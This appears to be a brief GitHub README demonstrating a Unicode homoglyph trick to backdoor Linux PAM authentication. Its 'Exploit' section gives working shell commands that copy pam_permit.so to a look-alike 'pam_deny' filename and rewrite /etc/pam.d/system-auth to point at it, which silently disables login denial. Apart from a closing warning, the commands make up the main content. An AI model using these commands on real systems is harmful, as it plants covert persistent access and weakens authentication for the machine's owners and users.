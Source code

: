 Unicode homoglyph backdoor tricks
======================

"*...The Unicode character set contains many strongly homoglyphic characters. These present security risks in a variety of situations...*" (Wikipedia)

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=Os0QKZgvE_I" target="_blank"><img src="http://img.youtube.com/vi/Os0QKZgvE_I/0.jpg" alt="Messing around with homoglyphs - pam_deny.so" width="480" height="360" border="10" /></a>

**Exploit**

*redhat and derivates*

```shell-session

cp -av /lib*/security/pam_permit.so  /tmp/pam_de$'\xd5\xb8'y.so
sed -i 's/deny.so/de\xd5\xb8y.so/g' /etc/pam.d/system-auth

```

Homoglyph could be dangerous! Keep your eyes open! O.O

